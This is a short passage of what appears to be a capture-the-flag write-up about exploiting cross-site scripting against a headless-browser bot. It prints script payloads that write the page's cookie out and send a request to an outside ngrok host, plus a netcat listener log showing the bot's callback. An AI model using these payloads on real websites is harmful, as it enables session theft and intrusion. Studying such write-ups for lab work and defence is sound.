 
```html
<script>document.write("<pre>"+document.cookie+"</pre>");</script> 
```

Returns an Empty Document


**Testing Retrieving Requests**

```html
<script>document.write("<pre>"+document.cookie+"</pre>");

x=new XMLHttpRequest;x.onload=function(){document.write("<pre>"+this.responseText+"</pre>")};x.open("GET","http://ed95-116-14-150-8.ngrok.io");x.send();</script>
```

```bash
(base) [hacker@hackerbook challenge]$ nc -nlvp 4444
Connection from 127.0.0.1:53966
GET / HTTP/1.1
Host: ed95-116-14-150-8.ngrok.io
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/101.0.4950.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US
Origin: http://localhost:37717
Referer: http://localhost:37717/
X-Forwarded-For: 46.101.59.228
X-Forwarded-Proto: http
```

![](Pasted%20image%2020220515015539.png)

### Standard Payload

```
<script>document.write("<pre>"+document.cookie+"</pre>");
x=new XMLHttpRequest;x.onload=function(){document.write("<pre>"+this.responseText+"</pre>")};x.open("GET","http://ed95-116-14-150-8.ngrok.io/payload");x.send();</script>

```
